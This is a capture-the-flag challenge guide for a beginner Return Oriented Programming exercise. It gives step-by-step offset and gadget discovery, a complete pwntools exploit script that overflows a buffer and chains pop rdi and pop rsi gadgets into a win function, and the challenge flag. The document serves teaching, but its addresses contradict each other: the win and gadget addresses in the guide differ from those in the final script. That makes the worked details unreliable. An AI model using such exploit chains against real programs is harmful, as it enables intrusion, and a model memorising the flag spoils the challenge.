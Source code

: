 # Challenge Name
babyrop

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
ROOOOOOOOOOPPERS. Tell me the gadgets used as your flag. ex. if rax and rbx are used, then put as `MACCTF{raxrbx}`

## Difficulty:
guided (easy)

## Guide
Looking at the code, we have to use ret2win again for the uncalled `win` function. However, we have to fulfil the function arguments in order to call it.
1. a = 0x1337
2. b = 0xdead

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use 2 arguments, so we need to use `rdi` & `rsi` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `win` function
3. Gadgets

#### To find the offset needed:
1. use `cyclic 100` in pwndbg (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the `win` address:
```sh
$> objdump -d chall | grep win
0000000040537 <win>:
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary chall | grep rdi
0x0000000000400603 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary chall | grep rsi
0x0000000000400601 : pop rsi ; pop r15 ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `win` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + argument 1 (rdi)
3. pop rsi address + argument 2 (rsi) + redundent value (r15)
4. return address of `win` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = remote("IP", PORT)

# address of win function
win_addr = p64(0x400757)

# ROP gadget addresses
rdi_addr = p64(0x4008e3)
rsi_addr = p64(0x4008e1)

# payload = 
# padding
# pop rdi + argument 1
# pop rsi + argument 2 + pop r15 (we dont need r15)
# return to win

payload = b'A' * 40
payload += rdi_addr + p64(0x1337)
payload += rsi_addr + p64(0xdead) + p64(0)
payload += win_addr 

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. Ever heard of ROPgadgets/ropper/rp++?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
- chall.c
- chall

## Resources
- https://ctf101.org/binary-exploitation/what-are-calling-conventions/
- https://ctf101.org/binary-exploitation/return-oriented-programming/
- https://book.hacktricks.wiki/en/binary-exploitation/rop-return-oriented-programing/index.html


## Flag
`MACCTF{rdirsi}`